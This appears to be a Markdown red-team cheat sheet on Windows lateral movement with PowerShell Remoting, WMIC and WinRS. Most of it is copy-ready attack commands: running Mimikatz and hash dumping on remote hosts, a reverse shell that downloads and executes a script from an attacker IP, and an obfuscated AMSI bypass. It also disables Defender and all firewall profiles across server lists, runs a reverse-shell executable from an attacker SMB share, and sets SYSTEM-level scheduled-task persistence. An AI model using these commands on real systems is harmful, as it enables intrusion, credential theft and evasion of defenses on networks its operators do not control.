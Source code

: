 # Powershell Remoting

## Permissions: Administrator OR user in Remote Management Users group

## Requirements: WinRM (port 5985/5986) open

## Use case: You want modern, interactive access to a remote system (preferred for clean environments). Use it with valid credentials.

## Ways to use:

 - One-to-One

 - Interactive

 - Stateful

 - Executes in a new process (wsmprovhost)

 - Execute command on multiple systems at once

 - Runs background jobs

 - -Credential parameter can be used to pass credentials

## Create a session

##### Enable PowerShell Remoting on local system (Requires elevated privileges)

    Enable-PSRemoting

##### Create new PSSession

    New-PSSession -Computer Srv01.Security.local

##### Connect to PSSession

    Enter-PSSession -Computer Srv01.Security.local

##### Connect to PSSession with a trusted remote account

    Enter-PSSession -ComputerName IP/FQDN -Credential Administrator

##### Store session as variable

    $Session = New-PSSession -Computer Srv01.Security.local

### If you have sessions stored as variables then commands with the -Computername parameter can be replaced with -Session $session.

## Run commands on target

    Invoke-Command -Computername Srv01.Security.local -ScriptBlock {Whoami;Hostname}
    Invoke-Command -Computername Srv01.Security.local -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'

##### Run locally loaded functions on target system

    Invoke-Command -Computername Srv01.Security.local -ScriptBlock ${Function:Test-Function}

##### Load script into remote session

    Invoke-Command -FilePath 'C:\Tools\Invoke-Mimikatz.ps1' -Session $Session

##### Reverse shell

    Invoke-Command -ComputerName Srv01.Security.local -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://<IP>/Shell.ps1')"}

##### Bypass AMSI

    Invoke-Command -session $Session -scriptblock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )}

## Run commands on multiple systems

##### Execute commands on multiple systems

    Invoke-Command –Scriptblock {Get-Process} -ComputerName (Get-Content c:\Serverlist.txt) 

##### Execute scripts on multiple systems

    Invoke-Command –FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content c:\Serverlist.txt)

##### Execute functions on multiple systems

    Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content c:\Serverlist.txt)

##### Bypass AMSI on multiple systems

    Invoke-Command -Scriptblock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} -ComputerName (Get-Content c:\Serverlist.txt)

## Disable Defenses

##### Turns off Defender, sets an exclusion path

    Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;` Set-MpPreference -DisableIOAVProtection $true;` Set-MPPreference -DisableBehaviorMonitoring $true;` Set-MPPreference -DisableBlockAtFirstSeen $true;` Set-MPPreference -DisableEmailScanning $true;` Set-MPPReference -DisableScriptScanning $true;` Set-MpPreference -DisableIOAVProtection $true;` Add-MpPreference -ExclusionPath "C:\Windows\Temp";`}

##### Turns off all firewall profiles

    Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}

##### Turns off Defender and Firewall on multiple systems

    Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;` Set-MpPreference -DisableIOAVProtection $true;` Set-MPPreference -DisableBehaviorMonitoring $true;` Set-MPPreference -DisableBlockAtFirstSeen $true;` Set-MPPreference -DisableEmailScanning $true;` Set-MPPReference -DisableScriptScanning $true;` Set-MpPreference -DisableIOAVProtection $true;` Add-MpPreference -ExclusionPath "C:\Windows\Temp";` Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}` -ComputerName (Get-Content c:\Serverlist.txt)

# Wmic

##### Execute calc.exe on remote system

    wmic /node:10.10.10.5 /user:moe process call create "cmd.exe /c calc.exe"

##### Executing reverse shell on remote system from a SMB share hosted on attackers system

    wmic /node:10.10.10.5 /user:moe process call create "cmd.exe /c \\10.10.10.200\Share\reverse.exe"

##### Setting up persistence with schtasks on a remote system to execute a reverse shell every minute/

    wmic /node:10.10.10.5 /user:moe process call create "schtasks /create /sc minute /mo 1 /tn "Persistence" /tr \\10.10.10.200\Share\reverse.exe /ru "SYSTEM""

# Winrs

##### Connect remotely to system and execute a command

    winrs -r:IP/FQDN -u:workstation\administrator -p:Password@987 COMMAND

##### Get an interactive shell

    winrs -r:IP/FQDN -u:workstation\administrator -p:Password@987 CMD

